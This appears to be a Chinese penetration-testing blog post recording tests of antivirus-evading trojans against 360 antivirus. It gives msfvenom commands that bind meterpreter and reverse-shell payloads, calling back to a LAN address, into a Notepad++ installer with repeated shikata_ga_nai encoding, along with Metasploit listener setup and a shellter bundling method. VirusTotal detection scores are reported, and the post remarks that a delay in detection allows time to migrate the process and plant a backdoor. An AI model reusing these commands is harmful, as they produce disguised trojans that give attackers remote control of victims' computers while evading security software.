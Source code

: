 ```yaml
---
title: 免杀木马测试
date: 2022-4-18 20:48:36
tags: [Trojan horse,Linux,Kali,Metasploit,shellter]
categories: 
 - [渗透测试,木马-Trojan horse]
cover: https://res.cloudinary.com/sycamore/image/upload/v1682443502/Typera/2023/04/38939d28722be4a8ad01b5cca9bd13a1.png
---
```


:::default
**测试杀软：360 全家桶**
:::

## MSF

`msfconsole`

- **mp_npp:**（2022/4/16）
	- `msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.158.139 LPORT=4444 -x npp.8.1.4.Installer.exe -f exe > mp_npp.exe`
	<br>
	- **监听**：
		- `use exploit/multi/handler`
		- `set payload windows/meterpreter/reverse_tcp`
		- `set LHOST 192.168.158.139`
		- `set LPORT 4444`
		- `run`
	-  **免杀效果：**
		- 不能完全通过 **静态扫描**，快速扫描没事，指定文件夹扫描木马会报毒，且运行时会**第一时间**检测出木马
		- **virustotal** 的检测情况（**40 /  70**）：[检测报告](https://www.virustotal.com/gui/file/c3a7c2280e4aa9aa0693729049f7f8e0ff05e253c1047ef282748c3509687207)
- **mp_rc4_npp_i15：**（2022/4/18）
	- `msfvenom -p windows/meterpreter/reverse_tcp_rc4 LHOST=192.168.158.139 LPORT=4444 -e x86/shikata_ga_nai -x npp.8.1.4.Installer.exe -i 15 -f exe > mp_rc4_npp_i15.exe`
	<br>
	- **监听**：
		- `use exploit/multi/handler`
		- `set payload windows/meterpreter/reverse_tcp_rc4`
		- `set LHOST 192.168.158.139`
		- `set LPORT 4444`
		- `run`
	- **免杀效果：**
		- 能过 **360静态检测**，但会被 **动态检测** 查杀
		- **virustotal** 的检测情况（**38 /  70**）：[检测报告](https://www.virustotal.com/gui/file/84391493d82a5878f2a2eaa9465e95b4eae09bc8486d514cc19a741b1918721b)

- **sh_npp_i27：**（2022/4/18）
	- `msfvenom -p windows/shell_reverse_tcp LHOST=192.168.158.139 LPORT=4444 -e x86/shikata_ga_nai -x npp.8.1.4.Installer.exe -i 27 -f exe > sh_npp_i27.exe`
	<br>
	- **监听**：
		- `use exploit/multi/handler`
		- `set payload windows/shell_reverse_tcp_rc4`
		- `set LHOST 192.168.158.139`
		- `set LPORT 4444`
		- `run`
	- **免杀效果：**
		- 能过 **360静态检测**，但会被 **动态检测** 查杀
		- **virustotal** 的检测情况（**35 /  69**）：[检测报告](https://www.virustotal.com/gui/file/0a95d390c8165cfce1dd4ce40764e27dbfd89bd396c6a2a58ae662e623aa6233?nocache=1)

## shellter 捆绑免杀
- **shellter_npp：**（2022/4/16）
	- payload 选择 **shellter 自带**的：Meterpreter_Reverse_TCP （选项 1）
	- **免杀效果：**
		- 能过 **360静态检测**，**动态检测** 报毒会有 **大约一分钟** 的延迟（时间上足够**迁移进程**+**布置后门**）
		- **virustotal** 的检测情况（**31 /  70**）[检测报告](https://www.virustotal.com/gui/file/e4e97bef85f3970d42e81d6f75815050d7ff2370790888fe9d78948bc83b30a7)
